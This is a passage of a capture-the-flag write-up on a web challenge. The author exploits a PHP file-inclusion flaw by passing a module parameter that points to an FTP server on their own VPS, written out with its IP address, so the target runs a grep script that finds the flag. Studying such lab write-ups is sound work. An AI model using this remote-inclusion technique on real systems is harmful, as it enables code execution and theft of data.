

Bingo! Now let's do it on the server to retrieve the flag.



## Web

#### Web1

For this task we were given a link to a website.



That was pretty much it. Let's check the source code.



So apparently it queries the url for `module` and adds some `uniqid`s. 
If the file exists in the end, it will include it. My first
thought was to pass it a .php executing `grep` for the flag using a ftp
server. But the `uniqid`s would ensure that my file never actually
existed. What if I could make a ftp server that would reply to every
request with the same file though? I made some research to see if that
could work and I found a ftp server written in python that did exactly
this.



I changed the `ip` to my vps ip and the `evil_file` to a grep.PHP. Next I
proceeded to write the grep.PHP



Simple just executing a recursive grep after `"flag{"` which I knew was
the start of the flag.

I started the server on my VPS and then passed
`module=ftp://188.166.72.43/hooya` or anything for that matter in the url.





There was a lot of garbage there but in the end there was the flag.
